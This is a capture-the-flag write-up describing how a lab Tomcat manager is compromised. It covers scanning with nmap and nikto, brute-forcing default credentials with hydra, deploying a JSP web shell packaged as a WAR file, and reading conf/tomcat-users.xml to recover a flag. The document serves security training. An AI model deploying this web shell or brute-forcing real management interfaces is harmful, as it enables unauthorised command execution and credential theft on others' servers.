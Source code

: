 # **War of Tomcat** Write Up

**Apache Tomcat** is a open-source web server, provides platform for running Java-based web applications and supports several Java technologies.

**War** (Web Application Archives) is a package format used to distribute a web application. It contains all the components needed to run a web application, such as HTML files, JavaServer Pages (JSPs), servlets, Java classes, libraries (JAR files), and configuration files.

**Tomcat uses WAR** files to deploy web applications. When you deploy a WAR file to Tomcat, it extracts the contents and sets up the web application on the server.

## Web First Look:

![image-20240912003139430](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20240912003139430.png)

Tomcat has a management interface that is usually available at :

```
http://10.214.160.13:10007/manager/html
```

![image-20240912003412965](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20240912003412965.png)

After curling the html I found this:

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<html>
 <head>
  <title>401 Unauthorized</title>
  <style type="text/css">
    <!--
    BODY {font-family:Tahoma,Arial,sans-serif;color:black;background-color:white;font-size:12px;}
    H1 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:22px;}
    PRE, TT {border: 1px dotted #525D76}
    A {color : black;}A.name {color : black;}
    -->
  </style>
 </head>
 <body>
   <h1>401 Unauthorized</h1>
   <p>
    You are not authorized to view this page. If you have not changed
    any configuration files, please examine the file
    <tt>conf/tomcat-users.xml</tt> in your installation. That
    file must contain the credentials to let you use this webapp.
   </p>
   <p>
    For example, to add the <tt>manager-gui</tt> role to a user named
    <tt>tomcat</tt> with a password of <tt>s3cret</tt>, add the following to the
    config file listed above.
   </p>
<pre>
&lt;role rolename="manager-gui"/&gt;
&lt;user username="tomcat" password="s3cret" roles="manager-gui"/&gt;
</pre>
   <p>
    Note that for Tomcat 7 onwards, the roles required to use the manager
    application were changed from the single <tt>manager</tt> role to the
    following four roles. You will need to assign the role(s) required for
    the functionality you wish to access.
   </p>
    <ul>
      <li><tt>manager-gui</tt> - allows access to the HTML GUI and the status
          pages</li>
      <li><tt>manager-script</tt> - allows access to the text interface and the
          status pages</li>
      <li><tt>manager-jmx</tt> - allows access to the JMX proxy and the status
          pages</li>
      <li><tt>manager-status</tt> - allows access to the status pages only</li>
    </ul>
   <p>
    The HTML interface is protected against CSRF but the text and JMX interfaces
    are not. To maintain the CSRF protection:
   </p>
   <ul>
    <li>Users with the <tt>manager-gui</tt> role should not be granted either
        the <tt>manager-script</tt> or <tt>manager-jmx</tt> roles.</li>
    <li>If the text or jmx interfaces are accessed through a browser (e.g. for
        testing since these interfaces are intended for tools not humans) then
        the browser must be closed afterwards to terminate the session.</li>
   </ul>
   <p>
    For more information - please see the
    <a href="/docs/manager-howto.html">Manager App HOW-TO</a>.
   </p>
 </body>

</html>
```

after attempting to put the username and password **tomcat:s3cret** it is not working, perhaps the problem is because the password might got changed recently.

So the next step was by using the nmap to check the port:

```bash
nmap -sV -p 10007 --script=http-server-header,http-title 10.214.160.13
```

![55](C:\Users\ASUS\Desktop\Write Ups\images\55.png)

here, it just confirms us that the website is using ***Apache Tomcat / Coyote JSP engine 1.1***

After running nikto:

```bash
nikto -h http://10.214.160.13:10007
```

![image-20240913202459988](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20240913202459988.png)

After running hydra to brute force the tomcat:

```bash
hydra -L tomcat-users.txt -P tomcat-password.txt http-get://10.214.160.13:10007/manager/html
```



![image-20240913212426775](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20240913212426775.png)

turns out it is ***tomcat:tomcat***

![image-20240913212538442](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20240913212538442.png)

and now we are inside the Tomcat Web Application Manager:

now lets create a **WAR(Web Application Archive)** and deploy it to the server,

First I create the **.jsp** file: (.jsp is a java file to be embed to html page to create dynamic content or display)

```jsp
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>
```

This code is intended to inject a Web Shell Code, but first we need to convert it to a **WAR** file using the jar command,

![image-20240913220241060](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20240913220241060.png)

We now have the **webshell.war** file, next we uploaded in the web application manager

![image-20240913220347886](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20240913220347886.png)

After uploading, let's directly access the url 

```
http://10.214.160.13:10007/webshell/
```

then we can access the webshell we just injected

by applying the command 

```
cat conf/tomcat-users.xml
```

we can access where the flag is hidden:

![image-20240913220547121](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20240913220547121.png)

After further inspection I found the flag inside the inspect source tab hidden in the role tag

Flag : **AAA{t0mcat_wiTh_manager_1s_dangerous_qq_GROUP_~~}  ~~ is hidden for privacy purpose**
